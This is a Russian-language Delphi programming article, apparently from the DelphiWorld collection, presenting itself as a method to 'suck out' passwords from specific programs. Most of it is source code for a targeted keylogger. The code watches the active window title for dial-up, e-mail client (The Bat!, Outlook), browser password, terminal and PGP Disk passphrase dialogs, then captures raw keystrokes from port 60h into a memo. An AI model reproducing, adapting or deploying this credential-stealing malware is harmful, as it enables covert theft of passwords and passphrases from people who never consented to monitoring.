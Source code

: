 ```yaml
---
Title: Способ высосать пароли из едитов определенных программ
Date: 01.01.2007
Source: DelphiWorld 6.0 <https://delphiworld.narod.ru/>
---
```



Способ высосать пароли из едитов определенных программ
======================================================

Вот хороший способ высосать пароли из едитов определенных программ -
Достоинством метода является отсутствие необходимости читать длинющие
keylog - записи, тк кейлоггинг ведется только в интересующих нас окнах
(Terminal, DUN, etc...).

    unit ksf;
    interface
    uses windows,Controls,Forms, StdCtrls, Classes, ExtCtrls;
     
    type
     Tf1 = class(TForm)
       t1: TTimer;
       m1: TMemo;
       procedure t1t(Sender: TObject);
     end;
     
    var
    f1: Tf1;
    okey:byte;
    KAr:array[1..88] of pchar=('-Esc-','1','2','3','4','5','6','7','8','9',
    '0','-','=','bsp','-Tab-','q','w','e','r','t','y','u','i','o','p',
    '[',']','#13','-Ctrl-','a','s','d','f','g','h','j','k','l',';','''','`',
    '-Shift-','\','z','x','c','v','b','n','m',',','.','/','-Shift-','*',
    'Alt',' ','CL','F1','F2','F3','F4','F5','F6','F7','F8','F9','F10','NL',
    'SL','-Home-','-Up-','-PgUp-','-','-Left-','-*5*-','-Right-','+',
    '-End-','-Down-','-PDn-','-Ins-','-Del-','','','-Unk-','F11','F12');
     
    implementation
    {$R *.DFM}
     
    procedure Tf1.t1t(Sender: TObject);
    var
    key:byte;
    cap0:pchar;
    cap1:string;
    begin
    getmem(cap0,255);
    GetWindowText(GetforegroundWindow,cap0,255); //title активного окна
    cap1:=cap0;
    freemem(cap0);
    if(pos('Connect To',cap1)< > 0)or        //DialUP
      (pos('Установка связи',cap1)< > 0)or   //DialUP
      (pos('Вход в систему',cap1)< > 0)or    //DialUP
      (pos('EType Dialer',cap1)< > 0)or      //DialUP
      (pos('p Networking',cap1)< > 0)or      //DialUP
      (pos('p Connection',cap1)< > 0)or      //DialUP
      (pos('Connecting to',cap1)< > 0)or     //DialUP
      (pos('Connessione a',cap1)< > 0)or     //DialUP
      (pos('Edit User - ',cap1)< > 0)or      //The Bat!
      (pos('Мастер подключения к Интернету',cap1)< > 0)or //MSIE,MSOutlook,etc
      (pos('сетевого пароля',cap1)< > 0)or   //MSIE
      (pos('Свойства: ',cap1)< > 0)or        //MSOutlook
      (pos('Вход - ',cap1)< > 0)or           //MSOutlook
      (pos(' - Receiving mail',cap1)< > 0)or //The Bat!
      (pos('Окно терминала',cap1)< > 0)or    //Terminal
      (pos('Passphrase',cap1)< > 0)          //PGP Disk
    then
    begin
     asm
      in al,60h                 // Читаем из 60h порта нажатую кнопку в al
      mov key,al                // Перемещаем код ключа из al в Key
     end;
     if okey< > key then
     begin
      okey:=key;
      if key< =88 then           // Ловим Key_Down код
      m1.text:=m1.text+kAr[Key]  // И берем по этому коду из массива строку
     end;
    end;
    end;
     
     


